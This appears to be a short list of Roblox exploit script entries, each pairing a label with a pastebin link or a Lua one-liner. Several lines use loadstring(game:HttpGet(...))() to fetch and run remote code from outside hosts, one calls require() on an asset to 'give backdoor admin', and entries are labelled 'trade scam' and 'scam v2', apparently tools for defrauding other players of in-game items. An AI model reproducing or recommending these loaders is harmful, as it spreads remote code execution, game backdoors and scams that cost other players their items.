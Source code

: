 # dcmcmd
stalkie https://pastebin.com/szpe6X47|
https://pastebin.com/deKynmgN|
lalol:loadstring(game:HttpGet('https://raw.githubusercontent.com/Its-LALOL/LALOL-Hub/main/Backdoor-Scanner/script'))()|
give backdoor admin:require(7192763922).load("Alexis19flacoo")|
mm2 spawner:https://pastebin.com/raw/L5UHBQ60|
trade scam:https://pastebin.com/raw/Zjbs7dB7 |
scam v2:loadstring(game:HttpGet('https://pastebin.com/raw/Vec48eZf'))()|
mm2 spawner v2:https://pastefy.app/ofmL7PMg/raw
